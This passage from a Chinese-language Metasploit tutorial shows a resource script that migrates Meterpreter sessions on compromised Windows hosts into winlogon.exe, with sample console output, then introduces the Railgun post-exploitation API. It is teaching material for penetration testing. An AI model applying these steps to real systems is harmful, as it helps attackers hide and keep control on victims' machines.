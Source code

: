 现在，从 msfconsole，

```
resource /home/rubyfu/mass-migration.rc 
```

结果将类似于

```
[*] Running post/windows/manage/migrate against session 2
[*] Post module running as background job

[*] Running module against WIN-NG118S6TM0H
[*] Current server process: shell.exe (3968)
[*] Spawning notepad.exe process to migrate to
[*] Session 2 | Finding PID of processe winlogon.exe
[+] Migrating to 3628
SESSION => 3
[*] Running post/windows/manage/migrate against session 3
[*] Post module running as background job
[*] Running module against HOME
[*] Current server process: shell.exe (2684)
[*] Session 3 | Finding PID of processe winlogon.exe
[+] Migrating to 2444
SESSION => 4
[*] Running post/windows/manage/migrate against session 4
[*] Post module running as background job
[*] Running module against WIN-8H4IDI0SR5A
[*] Current server process: shell.exe (2996)
[*] Session 4 | Finding PID of processe winlogon.exe
[+] Migrating to 2240

[+] Successfully migrated to process 3628
[+] Successfully migrated to process 2444
[+] Successfully migrated to process 2240 
```

# Railgun API 扩展

# Railgun API 扩展

引用自 [DefCon20 中的 Railgun 演示](https://www.defcon.org/images/defcon-20/dc-20-presentations/Maloney/DEFCON-20-Maloney-Railgun.pdf)，**Railgun** 是 Meterpreter stdapi 的一个扩展，允许任意加载 DLL。由于 Windows API DLL 总是在已知路径上，我们总是可以加载它们。

使用 Railgun 的最终好处是获得动态访问系统上整个 Windows API 的能力。通过从用户进程调用 API，我们可以模拟用户，一切皆有可能。

Railgun 用作 POST 渗透 API，因此熟悉它将为后渗透阶段带来许多新的可能性。

**路径**

+   `metasploit-framework/lib/rex/post/meterpreter/extensions/stdapi/railgun`

+   所有定义的 DLL 都位于 `metasploit-framework/tree/master/lib/rex/post/meterpreter/extensions/stdapi/railgun/def`
